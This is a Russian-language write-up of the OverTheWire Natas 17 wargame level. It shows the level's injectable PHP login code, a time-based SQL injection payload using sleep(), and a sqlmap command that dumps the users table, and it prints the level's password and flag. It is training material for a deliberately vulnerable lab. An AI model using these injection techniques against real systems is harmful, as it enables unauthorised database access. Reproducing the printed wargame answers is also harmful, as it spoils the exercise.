




# NATAS_17 WriteUp
:computer: Host: http://natas16.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas17  
:key: Password: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

:triangular_flag_on_post: Flag: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
 
- [NATAS\_17 WriteUp](#natas_17-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом


При вводе строки ``test`` веб-приложение ведёт себя странно


Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
Разберёмся почему веб-приложение не выдаёт никакой информации при отправке данных в форму
```php
if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```

Вывод закомментирован.. вероятно для того, чтобы принудить нас к использованию именно time-based SQL инъекцию

Запрос к БД формируется следующим образом
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

Попробуем вызвать функцию ``sleep(1)``  
:space_invader: Payload: ``test" or username=(select sleep(1)) #`` 



Наличие time-based SQL инъекции подтвердили, можно доверить брутфорс автоматике
люч запуска **sqlmap**
```bash
sqlmap -u http://natas17.natas.labs.overthewire.org/ --data="username=natas17" --auth-type Basic --auth-cred natas17:XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd --technique=T --dbms mysql --level 5 --risk 3 --batch --threads 10 -D natas17 -T users --dump
```

Дамп таблицы



Полученный флаг: 8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
